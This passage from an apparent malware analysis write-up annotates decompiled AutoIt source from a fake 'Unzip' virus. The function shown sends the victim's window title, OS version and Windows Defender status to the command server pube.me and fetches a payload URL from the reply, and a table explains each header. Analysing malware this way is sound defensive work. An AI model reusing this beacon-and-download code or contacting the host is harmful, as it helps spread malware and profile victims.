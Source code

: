 #### g) 5.2 function: Collect and submit data to server, get virus link
```autoit
Func found_unzip() ; Submit system information to server and get malaware from it!
	; Finally, http request!
	; Actually this function is from win32api
	; False means only one request, not multiple connections.
	
	; From what I saw here, they send some information of the system to the server.
	Global $httprequest = ObjCreate("winhttp.winhttprequest.5.1")
	$httprequest.Open("HEAD", "http://pube.me/app/login.php", False)
	$httprequest.setRequestHeader("User-Agent", "Unzip")
	$httprequest.setRequestHeader("Windows", $wintitle)
	$httprequest.setRequestHeader("ScriptName", @ScriptName)
	$httprequest.setRequestHeader("OS", @OSVersion)
	$httprequest.setRequestHeader("DefenderActive", ProcessExists("MsMpEng.exe"))
	$httprequest.setRequestHeader("CPU", "X64") ; I don't know why undefined. so default "X86". Originally @CPUArch
	$httprequest.setRequestHeader("Installed", $vzmpkv) ; Installed unzip or not?
	$httprequest.setRequestHeader("Version", 1) ; Don't know why it always be 1
	If RegRead("HKCU\Software\Unzip", "Trust") <> "No" Then ; Remember $itbnnhl = RegRead("HKCU\Software\Unzip", "Trust")
		; If that program installed
		$httprequest.setRequestHeader("Trust", "No")
	EndIf
	$httprequest.Send() ; Send the request to server
	$requeststatus = $httprequest.Status ; Get request submit status
	If $requeststatus <> 200 Then ; Check if request sent or not, Http 200 code means succeeded
		ConsoleWrite("http://pube.me/app/login.php")
		ConsoleWrite("Response" & $requeststatus) ; Write the response code
		ConsoleWrite("Exit:GetConfig")
		Exit
	EndIf
	Global $sevenzipurl = $httprequest.GetResponseHeader("unzip")
	Global $virusurl = $httprequest.GetResponseHeader("zip") ; Get the file url to download
	main6($sevenzipurl, $virusurl) ; I have to pass as arguments since the keyword `Global` not work :(
EndFunc
```
<br> Note: for some reason the AutoIt version installed on my computer didn't recognise the macro `@CPUArch`, so I just replace it with `X64` because the executable is compiled only for X64.
<br> It send the `HEAD` request to the URL `http://pube.me/app/login.php`. This URL often got 1020 error by CloudFlare (still don't know why).
<br> Then it send the following infomations in the header:
|Name|Value|
|----|----|
|`User-Agent`|`Unzip`|
|`Windows`|The current active window title before you run the virus, for example `Blank Page - Internet Explorer` if you download and start the virus from it|
|`ScriptName`|The script name, in my case `visitor.facebook.com`|
|`OS`|Your Windows version, for example `WIN_10` if you are running Windows 10|
|`DefenderActive`|The current active status of your Windows Defender. `1` if active and `0` if not|
|`CPU`|Your CPU architecture. The executable is for x86_64 so it cannot be run on x86 cpu. I didn't check if it could run on ARM64 with x86_64 emulation or not|
|`Installed`|Whether the virus has activated or not, return `Yes` or `No`|
|`Version`|Always return `1`|
|`Trust`|Only send if the virus installed|
